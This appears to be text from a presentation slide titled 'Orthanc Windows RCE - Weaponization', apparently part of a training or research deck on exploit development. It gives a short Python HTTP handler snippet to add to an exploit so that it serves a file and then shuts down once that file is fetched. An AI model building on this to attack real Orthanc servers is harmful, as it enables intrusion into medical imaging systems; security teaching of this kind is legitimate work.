

# Orthanc Windows RCE - Weaponization
Add the following under the commented out help section:
| class CustomHandler(http.server.SimpleHTTPRequestHandler): def do\_GET(self): global server\_shut\_down if self.path == FILE\_TO\_SERVE: server\_shut\_down.set() # Signal that the file was requested return http.server.SimpleHTTPRequestHandler.do\_GET(self) |
| --- |